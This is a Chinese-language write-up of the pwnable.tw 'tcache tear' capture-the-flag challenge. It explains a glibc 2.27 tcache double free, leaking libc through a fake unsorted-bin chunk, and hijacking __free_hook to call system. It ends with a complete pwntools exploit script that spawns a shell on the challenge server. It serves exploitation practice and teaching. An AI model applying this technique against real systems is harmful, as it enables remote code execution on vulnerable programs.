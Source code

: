 ```yaml
---

title: pwnable.tw writeup - tcache tear
lang: zh
layout: article
show_subscribe: false
tags: [ctf,pwn]

---
```


## checksec

```bash
$ checksec tcache_tear
[*] '/home/z1933/workplace/vbshare/ctf/tcache_tear'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    FORTIFY:  Enabled

```


Full RELRO 表示 GOT 表会在程序加载时就填好库函数地址，然后把 GOT 表设置为只读，程序运行时就不能改 GOT 表了。

程序流程还是不难分析的。

##  double free 

Glibc-2.7 ,tcache 没有 double free 检查: [glibc-2.27-malloc](https://elixir.free-electrons.com/glibc/glibc-2.27/source/malloc/malloc.c#L4169)。


下面是  tcache double free 让 malloc 返回任意地址的概述。 关于堆上分配，释放的流程具体可以参考：[Zhang1933/linux-heap-study](https://github.com/Zhang1933/linux-heap-study) 。

**free一次**(假设申请的chunk是32字节的大小):
```
tcache[0]-> chunk0
ptr -> chunk0
```

ptr 为程序中的全局分配释放指针。

**free 第二次:**
```
tcache[0]-> chunk0 ->chunk0
ptr -> chunk0
```

**申请一次**
```
tcache[0]-> chunk0
ptr -> chunk0
```

这个时候我们可以写chunk0的 fd 指针。

```
tcache[0]-> chunk0 -> TARGET_ADDR
ptr -> chunk0
```

然后申请一次，再申请一次 tcache 就会返回我们想要的地址 TARGET_ADDR 进行写操作了。

## 泄露libc

虽然可以任意地址写，但是可写地址并不多。

输入的 name 可写。我们可以在输入的 name 中构造一个 假的chunk。

unsorted bin 是双链循环链表。我们如果可以构造一个 假chunk(大于 tcache bin 的范围即可，这里选(0x500) 释放到unsorted bin ,然后打印 chunk 中的 fd 字段(用 Info 函数)，就可以泄露unsorted bin 的地址了,减去偏移就得到了 libc 的基地址。


在释放进unsorted bin时,构造的假chunk要绕开这些合理性检查：
[glibc-2.27 malloc:4272](https://elixir.free-electrons.com/glibc/glibc-2.27/source/malloc/malloc.c#L4272)

所以还需要在 `name-8+0x500` 的位置构造一个 size 为 `0x20|1` 的假chunk, `name-8+0x500+0x20` 的位置构造 size 为 `0x20|1` 的 假chunk。

name 就是程序一开始输入 name 时的固定地址。

## 控制程序流

得到libc的地址了我们可以得到 `__free_hook` 的地址,然后在指针中写入 system 的地址。下次释放 chunk 中只要数据部分为 `\bin\sh` 就OK了。

## Script

```python
#!/usr/bin/env python3

from pwn import *
from sortedcontainers.sortedlist import add

HOST='chall.pwnable.tw'
PORT=10207
PROC="./tcache_tear"

context.log_level = 'DEBUG'
context.arch = 'amd64'

io=None
elf=ELF(PROC)
lib = ELF("./dynamic64/glibc-2-27/libc-64.so")

if len(sys.argv) == 1 : 
    io=process(PROC)
else:
    log.info("remote start")
    # 设置代理
    context.proxy=(socks.SOCKS5,'localhost',7890)
    io=remote(HOST,PORT)

def PauseLocalDebug():
    info("process pid: "+str(io.pid))
    pause()

def Info():
    io.sendafter(":","3")

def Malloc(size,data):
    io.sendafter(":","1")
    io.sendafter(":",str(size))
    io.sendafter(":",data)

def Free():
    io.sendafter(":","2")

io.sendafter(":","aaaa")

def writeaddr(addr,val,size):
    # 每调用一次，free两次。注释了毒化tcache[0]的情况
    # 先申请一块
    Malloc(size,"aaaa")
    Free()
    # tcahce[0] -> chunk0
    Free()
    # tcache[0] -> chunk0 -> chunk0
    
    # 再申请一次,此时可以写chunk0的fd
    Malloc(size,pack(addr))
    # tcache[0] -> chunk0 -> addr
    # ptr -> chunk0

    Malloc(size,"aaaa")
    # tcache[0] -> addr
    # ptr -> chunk0

    # 再申请一次,现在可写内容了,写假chunk
    Malloc(size,val)
    # ptr-> fake_chunk


NAME_ADDR=0x602060
PTR_ADDR=0x602088

#  fake chunk 的下一个 chunk 0x20 大小
#  fake chunk  的下下一个chunk 0x20 大小,一块写了,节省次数
fake_chunk=pack(0x20|1)+pack(0)*3+pack(0x20|1) # 全部 set iuse 位为1
writeaddr(NAME_ADDR-8+0x500,fake_chunk,0x50)

# 写 fake chunk ,顺便把全局分配指针改了,节省次数
fake_chunk0=pack(0x500|1)+b'\x00'*40+pack(NAME_ADDR)
writeaddr(NAME_ADDR-8,fake_chunk0,0x60)

# 释放到unsorted bin 中
Free()

# 泄露 unsorted bin 的 fd
Info()
io.recvuntil("Name :")
UNSORTADDR=unpack(io.recvn(6)+b'\x00'*2)
info("UNSORTADDR: "+hex(UNSORTADDR))

# 调试得到的偏移
OFFSET=0x3EBCA0
lib.address=UNSORTADDR-OFFSET
info("libc addr: "+hex(lib.address))
info("system addr: "+hex(lib.symbols['system']))
info("libc __free_hook addr:"+hex(lib.symbols['__free_hook']))

#PauseLocalDebug()

writeaddr(lib.symbols['__free_hook'],pack(lib.symbols['system']),0x70)
# 全局分配指针写入"sh"

Malloc(0x40,'/bin/sh')
Free()

io.interactive()

```

